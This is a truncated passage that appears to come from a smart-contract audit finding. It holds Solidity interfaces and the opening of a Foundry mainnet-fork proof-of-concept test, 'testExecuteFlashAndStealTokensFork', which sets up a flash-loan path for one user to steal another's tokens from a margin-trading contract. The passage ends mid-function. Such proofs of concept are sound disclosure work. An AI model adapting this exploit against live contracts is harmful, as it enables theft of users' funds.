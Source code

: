 Add the following interfaces at the beginning of the file:
```solidity
interface IERC20 {
    function balanceOf(address) external returns(uint256);
    function transfer(address, uint256) external;
    function approve(address, uint256) external;
    function allowance(address, address) external returns(uint256);
    function transferFrom(address, address, uint256) external;
}

interface ILendingPool {
    function flashLoan(
    address receiverAddress,
    address[] calldata assets,
    uint256[] calldata amounts,
    uint256[] calldata modes,
    address onBehalfOf,
    bytes calldata params,
    uint16 referralCode
  ) external;

   function deposit(
    address asset,
    uint256 amount,
    address onBehalfOf,
    uint16 referralCode
  ) external;
}
```


Paste the following tests anywhere in the same file: 
```solidity
    function testExecuteFlashAndStealTokensFork() external {

        vm.createSelectFork(MAINNET_RPC_URL, BLOCK_NUMBER);

        alice = vm.addr(0x12345);
        bob = vm.addr(0x66412);
  
        //address _marginTrading = openMarginTradingDAIV2(user1, address(dai), address(weth), 10000 ether, 1 ether);
        createContractsV2Fork(AAVE_LENDING_POOL_V2);
        
        deal(_weth, AAVE_LENDING_POOL_V2, 10000 ether);
        deal(_weth, alice, 10000 ether);
        deal(_dai, AAVE_LENDING_POOL_V2, 1000000 ether);
        deal(_dai, alice, 100000 ether);
        deal(_dai, bob, 100000 ether);
        deal(_weth, bob, 1000000);

        vm.startPrank(alice);
        address _marginTrading = openMarginTradingDAIV2Fork();
        vm.stopPrank();

        console.log("Alice aDaiTokens: ",IERC20(_daiAToken).balanceOf(address(_marginTrading)) / 1e18);

        vm.startPrank(bob);
        bytes memory executeParams;
        //组装执行参数
        {
            address[] memory _withdrawAssets = new address[](0);
            uint256[] memory _withdrawAmounts = new uint256[](0);
            uint256[] memory _rateMode = new uint256[](0);
```